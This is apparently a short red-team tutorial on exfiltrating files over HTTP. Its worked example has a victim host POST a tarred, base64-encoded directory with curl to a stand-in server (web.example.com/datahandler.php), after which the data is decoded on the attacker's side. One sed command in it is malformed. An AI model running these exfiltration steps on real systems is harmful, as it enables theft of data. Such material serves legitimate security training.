 ## Can be done with any programming language

### Steps:

#### 1) Attacker sets up a web server with a data handler 

#### 2) A C2 agent or an attacker sends the data

#### 3) The webserver receives the data and stores it

#### 4) The attacker logs into the webserver to have a copy of the received data

### Example:

#### 1) Jumpbox: ssh USER@VICTIM1_DOMAIN

#### 2) Attacker: ssh USER@VICTTIM1_IP_ADDRESS -p 2022 (example)

#### 3) Victim1: ls -l

#### 4) Victim1:  curl --data "file=$(tar zcf - DIR | base64)" http://web.example.com/datahandler.php

#### 5) Victim1: ssh USER@WEB_SERVER_DOMAIN

#### 6) Web Server: ls -l /tmp/ cat /tmp/http.bs64

#### 7) Web Server: sudo sed -i -s/ /t/g' /tmp/http.bs64

#### 8) Web Server: cat /tmp/http.bs64 | base64 -d | tar xvfz -

### HTTPS can be applied the same as HTTP technique.

### Setting up our own HTTPS server: Digital Ocean
